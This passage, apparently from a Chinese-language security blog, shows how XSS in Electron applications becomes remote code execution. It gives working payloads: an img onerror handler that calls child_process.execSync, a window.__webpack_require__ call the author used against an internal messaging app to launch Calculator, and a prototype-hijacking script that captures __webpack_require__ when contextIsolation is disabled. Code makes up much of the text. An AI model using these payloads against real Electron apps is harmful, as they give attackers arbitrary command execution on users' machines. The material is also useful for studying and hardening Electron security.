 因为没有对 xss 进行过滤，导致我们可以很容易的弹个框

```bash
<a onmouseover="alert(1)"
```

在阅读代码时可以看到

```bash
const { app, BrowserWindow } = require('electron')
function createWindow() {
    const win = new BrowserWindow({
        width: 800,
        height: 600,
        webPreferences: {
            nodeIntegration: true
        }
    })
    win.loadFile('index.html')
}
```

他的 nodeIntegration 设置为了 true，这个应该是最简单的情况了，他的沙箱是关闭的，我们可以很容易进行 rce 像这样

```bash
<img src=x onerror="alert(require('child_process').execSync('calc').toString());">
```

在我进行挖掘某个内部通讯软件的时候，还出现了一个可以通过原型链来利用`__webpack__require`来进行 rce 的方式

```bash
window.__webpack_require__("module")._load("child_process").execFile("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
```

而在 NI 关闭的情况下似乎只能通过一些 V8 的洞来进行操作，但是实际上还有一个配置项值得关注

contextIsolation 允许开发人员在专用的 JavaScript 上下文中运行预加载脚本和 Electron API 中的代码。它在 Electron 的本地 JavaScript 代码和网络应用程序的 JavaScript 代码之间引入了分离的上下文，因此执行应用程序的 JavaScript 代码不会影响本地代码。

如果禁用了隔离，无论 "nodeIntegration "选项如何，Electron 都允许网络应用程序的 JavaScript 代码使用 Node.js 功能

```bash
<script>
const origEndWith = String.prototype.endsWith;
String.prototype.endsWith = function(...args) {
if (args && args[0] === "/electron") {
String.prototype.endsWith = origEndWith;
return true;
}
return origEndWith.apply(this, args);
}

const origCallMethod = Function.prototype.call;
Function.prototype.call = function(...args){
if(args[3] && args[3].name === "__webpack_require__") {
window.__webpack_require__ = args[3];
Function.prototype.call = origCallMethod;
}
return origCallMethod.apply(this, args);
}
console.log(window.__webpack_require__);
</script>
```
